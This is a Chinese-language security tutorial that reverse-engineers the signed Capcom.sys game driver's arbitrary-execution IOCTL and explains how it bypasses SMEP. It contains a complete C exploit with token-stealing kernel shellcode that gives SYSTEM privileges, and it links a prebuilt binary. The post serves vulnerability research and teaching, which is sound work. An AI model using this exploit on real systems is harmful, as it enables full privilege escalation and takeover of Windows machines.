


# 【第 11 話】Capcom.sys 研究－任意程式執行

## 文章大綱
我們在[【第 10 話】Windows Kernel Shellcode](/asset/第%2010%20話) 學習寫竄改 EPROCESS Token 的 Shellcode，就是為了這篇的漏洞研究，利用 Capcom.sys 的漏洞執行任意 Shellcode，寫攻擊腳本達成提權。最後則會介紹 SMEP 保護，以及說明為什麼 Capcom.sys 可以在有 SMEP 的狀況下在 Kernel 執行應用層的程式。


## 介紹 Capcom.sys
卡普空有限公司，是一家日本的電子遊戲開發商與發行商。創立於 1979 年，以日本大型電玩製造商開始，發展成如今在日本、美國、歐洲、亞洲都設有事務所的國際公司。

從我的 GitHub 下載目標驅動程式檔案 [Capcom.sys](https://github.com/zeze-zeze/2023iThome/blob/master/ExploitCapcom/bin/capcom.sys)，它是由卡普空開發的驅動程式，對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 Capcom.sys 的數位簽章資訊，是 2016 年 9 月 6 日的簽章。


## 逆向分析
在 IDA 中開啟 Capcom.sys，直接分析 `DriverEntry` 可以看到 Dispatcher，但是卻找不到 Symbolic Link Name。這是因為 Symbolic Link Name 在程式中才動態被解密，解密結果為 `Htsysm72FB`。



跟進去分析 Dispatcher，程式中定義兩個 IoControlCode 0xAA012044 跟 0xAA013044。兩個做的事其實差不多，只差在 0xAA012044 的輸入是 4 bytes，而 0xAA013044 的輸入是 8 bytes，總之它們在最後都會執行一個函數，我把它取名為 `ExecuteShellcode`。


再繼續跟進去看 `ExecuteShellcode`，程式將我們的輸入當成一個函數指標，之後呼叫了它。顯然這邊就有一個執行任意程式的功能，但同時也是可被濫用的漏洞。


## 寫程式
Shellcode 的部分延續[【第 10 話】Windows Kernel Shellcode](/asset/第%2010%20話)，我將它改成用在 Capcom.sys 的攻擊腳本中。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/ExploitCapcom)。

程式執行步驟如下
1. 取得 Device Handle
2. 申請要傳送到驅動程式的記憶體
3. 寫入提權的 Shellcode
4. 觸發 Capcom.sys 的任意執行
5. 執行 cmd

```c
int main(int argc, const char *argv[])
{
    // 1. 取得 Device Handle
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 0;
    }

    // 2. 申請要傳送到驅動程式的記憶體
    IOCTL_IN_BUFFER *InBufferContents =
        (IOCTL_IN_BUFFER *)VirtualAlloc(nullptr, sizeof(IOCTL_IN_BUFFER), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!InBufferContents)
    {
        printf("VirtualAlloc failed with Win32 error code: %x\n", GetLastError());
        return 0;
    }
    InBufferContents->ShellcodeAddress = InBufferContents->Shellcode;

    // 3. 寫入提權的 Shellcode
    BYTE token_steal[] =
        "\x65\x48\x8B\x14\x25\x88\x01\x00\x00"    // mov rdx, [gs:188h]     ; 從 KPCR 取得 ETHREAD 位址
        "\x4C\x8B\x82\xB8\x00\x00\x00"            // mov r8, [rdx + b8h]    ; 從 ETHREAD 取得 EPROCESS 位址
        "\x4D\x8B\x88\xe8\x02\x00\x00"    // mov r9, [r8 + 2e8h]    ; 從 EPROCESS 取得 ActiveProcessLinks 的 List Head 位址
        "\x49\x8B\x09"                    // mov rcx, [r9]          ; 取得 List 中第一個 Process 的 ActiveProcessLinks
        // find_system_proc:   ; 迴圈找到 system 的 EPROCESS 並取得 Token 的值
        "\x48\x8B\x51\xF8"    // mov rdx, [rcx - 8]    ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
        "\x48\x83\xFA\x04"    // cmp rdx, 4            ; 確認 UniqueProcessId 是不是 System Process (pid: 4)
        "\x74\x05"            // jz found_system       ; 如果是 System 就跳到 found_system
        "\x48\x8B\x09"        // mov rcx, [rcx]        ; 不是 System 就繼續從找下個 Process
        "\xEB\xF1"            // jmp find_system_proc
        // found_system:
        "\x48\x8B\x41\x70"    // mov rax, [rcx + 70h]  ; 取得在 ActiveProcessLinks (0x2e8) 後面的 Token (0x358)
        "\x24\xF0"            // and al, 0f0h          ; 清除 TOKEN 的 _EX_FAST_REF 結構後 4 bits 的 flags
        // find_current_process:    ; 迴圈找到目標 Process 的 EPROCESS
        "\x48\x8B\x51\xF8"    // mov rdx, [rcx-8]      ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
        "\x48\x81\xFA\x99\x99\x00\x00"    // cmp rdx, <Current Process>    ; 確認 UniqueProcessId 是不是目標 Process
        "\x74\x05"                        // jz found_cmd      ; 是目標 Process 就跳到 found_current_process
        "\x48\x8B\x09"                    // mov rcx, [rcx]    ; 不是目標 Process 就繼續找下個 Process
        "\xEB\xEE"                        // jmp find_current_process
        // found_current_process:
        "\x48\x89\x41\x70"    // mov [rcx+70h], rax    ; 把目標 Process 的 EPROCESS Token 竄改為 System 的 EPROCESS Token
        "\xc3";               // ret

    // 將 pid 填入 Shellcode
    token_steal[54] = GetCurrentProcessId();
    token_steal[55] = GetCurrentProcessId() >> 8;

    // 把提權 Shellcode 寫入要傳送到驅動程式的記憶體中
    memcpy(InBufferContents->Shellcode, token_steal, 71);

    // 4. 觸發 Capcom.sys 的任意執行
    uint32_t OutBuffer = 0;
    DWORD dwWrite = 0;
    DeviceIoControl(hDevice, 0xaa013044, InBufferContents, 8, &OutBuffer, 4, &dwWrite, nullptr);

    // 5. 執行 cmd，如果有成功提權應該是 System 權限
    system("cmd");
    VirtualFree(InBufferContents, 0, MEM_RELEASE);
    return 0;
}
```


## 測試
1. 在 VM 中載入 [Capcom.sys](https://github.com/zeze-zeze/2023iThome/blob/master/ExploitCapcom/bin/capcom.sys)
2. 用一般使用者權限執行 [ExploitCapcom.exe](https://github.com/zeze-zeze/2023iThome/blob/master/ExploitCapcom/bin/ExploitCapcom.exe)，會看到一個 cmd 跳出來
3. 輸入 `whoami` 會看到已經成功提權 `system`。


## Kernel 保護－SMEP
### 介紹
SMEP（Supervisor Mode Execution Prevention）是 Windows 的保護機制，在 Windows 8.1 後預設啟用，目的是要防止應用層的程式在 Kernel 層執行，算是一種針對應用層 Shellcode 的防禦。假入嘗試在 Kernel 層執行應用層的程式，會造成 BSOD。

在暫存器 cr4 中的第 20 bit 如果是 1，代表 SMEP 被啟用，反之 0 就是關閉。


### Capcom.sys 攻擊腳本怎麼能正常執行？
既然有 SMEP 的存在，明明我們的 Shellcode 是存在應用層的記憶體中，為什麼驅動程式還是能正常執行 Shellcode 而不會造成系統崩潰呢？

謎底在逆向分析時的 `ExecuteShellcode`，程式在呼叫我們的 Shellcode 前後，分別更改 cr4 來關閉與開啟 SMEP。因此這個任意執行對於卡普空而言是個功能，對於攻擊者來說則是一個方便使用的漏洞。


關閉 SMEP 的方式就是將 cr4 的第 20 個 bit 改為 0，並把舊的 cr4 存在參數中。


開啟 SMEP 的方式則是把舊的 cr4 值寫回去。




## 參考資料
- [tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom/)
- [卡普空](https://zh.wikipedia.org/zh-tw/%E5%8D%A1%E6%99%AE%E7%A9%BA)
- [Manipulating ActiveProcessLinks to Hide Processes in Userland](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/manipulating-activeprocesslinks-to-unlink-processes-in-userland)